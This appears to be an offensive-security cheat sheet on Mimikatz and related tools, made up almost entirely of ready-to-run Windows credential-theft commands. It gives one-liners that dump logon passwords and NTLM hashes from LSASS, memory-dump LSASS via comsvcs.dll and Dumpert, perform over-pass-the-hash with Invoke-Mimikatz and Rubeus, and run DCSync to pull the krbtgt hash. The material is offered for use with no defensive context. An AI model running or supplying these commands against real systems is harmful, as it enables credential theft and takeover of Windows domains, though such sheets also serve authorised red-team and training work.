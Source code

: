 ```yaml
---
layout: app
title: "Mimikatz"
image: "https://www.notion.so/image/https%3A%2F%2Fcdn-icons-png.flaticon.com%2F512%2F3786%2F3786242.png?table=block&id=2c256cbe-7986-4e8f-84ff-621520fe2fc9&spaceId=407e3b0e-5fd1-480d-b61d-72fe237d3fc6&width=250&userId=95ce699a-847b-4e7d-863b-90f869bd6ef3&cache=v2"
tags: ["mimikatz","over pass the hash",  "dump","rundll32", "Physmem2profit", "lsass","comsvcs"]

---
```


[Dumping Credentials from Lsass Process Memory with Mimikatz](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-credentials-from-lsass.exe-process-memory)

[PayloadsAllTheThings/Windows - Mimikatz.md at master · swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Mimikatz.md)

## One Liner

```powershell
mimikatz.exe 'privilege::debug "lsadump::dcsync /user:krbtgt"' exit
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit
```

### Running as previous created ticket

```powershell
mimikatz # misc::cmd
```

## Commands

```powershell
sekurlsa::logonpasswords => Get NTLM, SHA1 and DPAPI hashes authenticated passwords
lsadump::lsa /patch => Get LM and NTLM user hashes passwords
**dir \\UNC and then get kerberos tickets**
sekurlsa::tickets => Get Golden and Silver Tickets
```

# Extra Tools

## Invoke-Mimikatz

```powershell
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'
```

## SafetyKatz

```powershell
SafetyKatz.exe "sekurlsa::ekeys"
```

## SharpKatz

```powershell
SharpKatz.exe --Command ekeys
```

## Dumpert

```powershell
rundll32.exe C:\Dumpert\Outflank-Dumpert.dll,Dump
```


## pypykatz

```powershell
pypykatz.exe live lsa
```

## comsvcs.dll

```powershell
tasklist /FI "IMAGENAME eq lsass.exe"
rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump
<lsass process ID> C:\Users\Public\lsass.dmp full
```

### From Linux

- impacket
- Physmem2profit

# Over Pass the Hash 

**Needs admin acccess**

```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<NTLM Hash> /run:<process to run>"'
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:domain.com /aes256:aes256key /run:powershell.exe"'
```

**Doesn't need elevation**

```csharp
Rubeus.exe asktgt /user:administrator /rc4:"ntlmhash" /ppt
```

**Needs elevation**
```csharp
Rubeus.exe asktgt /user:administrator /aes256:"aes256key" /opsec /createnetonly:c:\windows\system32\cmd.exe /show /ptt
```

# Extract Credentials from DC (DCSync)

**Needs admin Rigths**

```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt"'
SafetyKatz.exe "lsadump::dcsync /user:domain\krbtgt" "exit"
```
